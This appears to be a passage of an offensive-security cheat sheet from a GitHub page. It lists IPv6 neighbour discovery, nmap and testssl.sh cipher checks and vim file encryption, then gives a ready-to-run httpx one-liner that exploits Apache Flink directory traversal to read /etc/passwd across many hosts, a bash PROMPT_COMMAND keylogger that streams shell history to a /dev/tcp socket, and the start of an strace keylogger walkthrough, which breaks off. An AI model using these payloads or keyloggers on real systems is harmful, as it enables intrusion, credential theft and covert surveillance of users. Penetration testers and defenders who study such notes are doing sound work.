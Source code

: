 
# Look for neighbors
$ ip neigh

$ nmap -Pn -sV -6 fe80::20c0 -e eth0 --packet-trace
```

Utilize `ndp` to enumerate all of the current ndp entries.

```
$ ndp -an
```

## Nmap to Evaluate HTTPS Support:

```
nmap -p 443 --script=ssl-enum-ciphers <Target Domain>
```

## Encrypt Files with Vim:

```
$ vim –x <filename.txt>
```

## Testssl.sh:

Enumerating ciphers and encryption weaknesses using Testssl command line tool:

Download: https://testssl.sh/

The normal use case is  ```testssl.sh <hostname>```. 

Special cases:

```
testssl.sh --starttls smtp <smtphost>.<tld>:587 
testssl.sh --starttls ftp <ftphost>.<tld>:21
testssl.sh -t xmpp <jabberhost>.<tld>:5222 
testssl.sh -t xmpp --xmpphost <XMPP domain> <jabberhost>.<tld>:5222 
testssl.sh --starttls imap <imaphost>.<tld>:143
```

## Apache Flink Directory Traversal:

```
cat hosts | httpx -nc -t 300 -p 80,443,8080,8443,8888,8088 -path "/jobmanager/logs/..%252f..%252f..%252f......%252f..%252fetc%252fpasswd" -mr "root:x" -silent
```

## Bash Keylogger:

```PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'```

## Strace Keylogger:

```
root@rosesecurity:~# ps aux | grep bash
rick      3103  0.0  0.6   6140  3392 pts/0    Ss+  17:14   0:00 bash
root      3199  0.0  0.6   6140  3540 pts/1    Ss   17:18   0:00 bash
root      3373  0.0  0.1   3488   768 pts/1    S+   18:06   0:00 grep bash
```
Strace Options:

1. –p 3103: connect to PID 3103, which above is on pts/0
2. –t : print the time of day
```